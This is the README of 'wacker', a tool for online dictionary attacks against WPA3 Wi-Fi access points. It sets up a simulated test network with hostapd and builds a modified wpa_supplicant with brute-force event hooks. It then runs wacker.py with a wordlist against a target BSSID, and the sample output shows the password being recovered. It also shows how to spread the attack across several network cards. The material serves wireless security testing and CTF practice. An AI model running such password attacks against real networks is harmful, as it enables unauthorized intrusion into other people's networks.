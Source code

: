 # Overview
A set of scripts to help perform an online dictionary attack against a WPA3 access point. Wacker leverages the wpa_supplicant control interface to control the operations of the supplicant daemon and to get status information and event notifications ultimately helping speedup connection attempts during brute force attempts.


# Find a WPA3 AP to use
If you already have a WPA3 AP that works then great. In lieu of that you can setup a local environment using mac80211_hwsim (details below) or use the VMs provided by the RF Hackers Sanctuary (highly recommended). Testing was done almost exculsively using the simulated mac80211 environments. Little attention was given to a real AP... for now... so your YMWV.

## Local Simulated Radios
To set up your own software simulator of 802.11 radios simply configure and load the correct mac80211_hwsim module.
```
# modprobe mac80211_hwsim radios=4
# iwconfig
wlan0     IEEE 802.11  ESSID:off/any
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on

wlan1     IEEE 802.11  ESSID:off/any
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on

wlan2     IEEE 802.11  ESSID:off/any
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on

wlan3     IEEE 802.11  ESSID:off/any
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
```

Choose one of the new interfaces as your WPA3 access point and use the following conf file.
```
# cat hostapd.conf
interface=wlan0
ssid=WCTF_18
driver=nl80211
hw_mode=g
channel=1
logger_syslog=-1
logger_syslog_level=3
wpa=2
wpa_passphrase=Aeromechanics
wpa_key_mgmt=SAE
rsn_pairwise=CCMP
ieee80211w=1
group_mgmt_cipher=AES-128-CMAC
```
And start hostapd with
```
# hostapd -K -dd hostapd.conf
```


# Split a wordlist
If you have intentions of farming out your cracking efforts across a series of nics the provided split.sh script will partition a wordlist for you.
```
# ./split.sh 10 cyberpunk.words 
  50916 cyberpunk.words.aaa
  50916 cyberpunk.words.aab
  50916 cyberpunk.words.aac
  50916 cyberpunk.words.aad
  50916 cyberpunk.words.aae
  50916 cyberpunk.words.aaf
  50916 cyberpunk.words.aag
  50916 cyberpunk.words.aah
  50916 cyberpunk.words.aai
  50907 cyberpunk.words.aaj
 509151 total
```


# Building wpa_supplicant
We're providing our own wpa_supplicant in order to guarantee that certain configurations are set as well as a few mods that need to occur within the source code itself. To build simply do the following. Hopefully in the future this will become a deprecated step.
```
# apt-get install -y pkg-config libnl-3-dev gcc libssl-dev libnl-genl-3-dev
# cd wpa_supplicant-2.8/wpa_supplicant/
# cp defconfig_brute_force .config
# make -j4
# ls -al wpa_supplicant
-rwxr-xr-x 1 root root 13541416 May 31 16:30 wpa_supplicant
```
Of interest are a few new event messages that were added to the wpa supplicant control interface to help further distinguish outcomes the wacker script hooks.
```
/** auth success for our brute force stuff (WPA3) */
#define WPA_EVENT_BRUTE_SUCCESS "CTRL-EVENT-BRUTE-SUCCESS "
/** auth failure for our brute force stuff (WPA3) */
#define WPA_EVENT_BRUTE_FAILURE "CTRL-EVENT-BRUTE-FAILURE " 
```


# Python Requirement
The wacker.py script makes use of a few f-strings among other python3-isms. In the interest of releasing the code sooner this requirement was kept. Here are some generic install instructions for Python3.7 if needed. I know in the future this will become a deprecated step.

```
# apt-get install build-essential tk-dev libncurses5-dev libncursesw5-dev libreadline6-dev libdb5.3-dev libgdbm-dev libsqlite3-dev libssl-dev libbz2-dev libexpat1-dev liblzma-dev zlib1g-dev libffi-dev -y
# wget https://www.python.org/ftp/python/3.7.0/Python-3.7.0.tar.xz
# tar xf Python-3.7.0.tar.xz
# cd Python-3.7.0
# ./configure
# make -j4
# make altinstall
```


# Running wacker
The wacker.py script is intended to perform all the heavy lifting.
```
# ./wacker.py --help
usage: wacker.py [-h] --wordlist WORDLIST --interface INTERFACE --bssid BSSID
                 --ssid SSID --freq FREQ [--start START_WORD]

A WPA3 dictionary cracker. Must run as root!

optional arguments:
  -h, --help            show this help message and exit
  --wordlist WORDLIST   wordlist to use
  --interface INTERFACE
                        interface to use
  --bssid BSSID         bssid of the target
  --ssid SSID           the ssid of the WPA3 AP
  --freq FREQ           frequency of the ap
  --start START_WORD    word to start with in the wordlist
```
With any luck... running the attack using just one instance...
```
# ./wacker.py --wordlist cyberpunk.words --ssid WCTF_18 --bssid 02:00:00:00:00:00 --interface wlan2 --freq 2412
Start time: 21 Aug 2020 07:40:11
Starting wpa_supplicant...
    5795 / 509151   words (1.14%) :  79.41 words/sec : 0.020 hours lapsed :   1.76 hours to exhaust (21 Aug 2020 09:25:49)
Found the password: 'Aeromechanics'

Stop time: 21 Aug 2020 07:41:24
```

Running multiple instances of wacker is easy if you have the spare nics. Don't forget to parition the wordlist as well.
```
# ./wacker.py --wordlist cyberpunk.words.aaa --ssid WCTF_18 --bssid 02:00:00:00:00:00 --interface wlan1 --freq 2412
# ./wacker.py --wordlist cyberpunk.words.aab --ssid WCTF_18 --bssid 02:00:00:00:00:00 --interface wlan2 --freq 2412
# ./wacker.py --wordlist cyberpunk.words.aac --ssid WCTF_18 --bssid 02:00:00:00:00:00 --interface wlan3 --freq 2412
```

# Files of interest
wacker is quite verbose. Files of interest are found under <b>/tmp/wpa_supplicant/</b>
 - wlan1 : one end of the uds
 - wlan1_client : one end of the uds
 - wlan1.conf : initial wpa_supplicant conf needed
 - wlan1.log : supplicant output
 - wlan1.pid : pid file for the wpa_supplciant instance
 - wlan1_wacker.log : wacker debug output


# Caution
wacker doesn't handle acls put in place by the target WPA3 AP. Meaning, the current code always uses the same MAC address. If the target AP blacklists our MAC address then the script won't differentiate between a true auth failure and our blacklisted MAC being rejected. This will mean that we'll consider the true password as a failure. One way to solve.... we would have to add macchanger to the source at the expense of slowdown.

wacker will seemingly pause everything so often as the AP will issue a backoff timeout. This will cause metric display to seemingly pause and then start again. This is expected behavior.

# Common Problems
* You'll see this when your client driver doesn't support the correct AKM. Typically this manifests itself in the wpa_supplicant output after you try and run the wacker script. The supplicant will essentially hang waiting further instructions with the AKM issue detailed below. The needed AKM is 00-0F-AC:8 (SAE) in the cases of WPA3.

```
u631_3: WPA: AP group 0x10 network profile group 0x18; available group 0x10
u631_3: WPA: using GTK CCMP
u631_3: WPA: AP pairwise 0x10 network profile pairwise 0x18; available pairwise 0x10
u631_3: WPA: using PTK CCMP
u631_3: WPA: AP key_mgmt 0x400 network profile key_mgmt 0x400; available key_mgmt 0x400
u631_3: WPA: Failed to select authenticated key management type
u631_3: WPA: Failed to set WPA key management and encryption suites
```


# TODO
* Create a wrapper script to launch wacker across multiple nics. This will avoid having to instantiate wacker manually for each nic. Have the wrapper also split the wordlist and consolidate the stats.
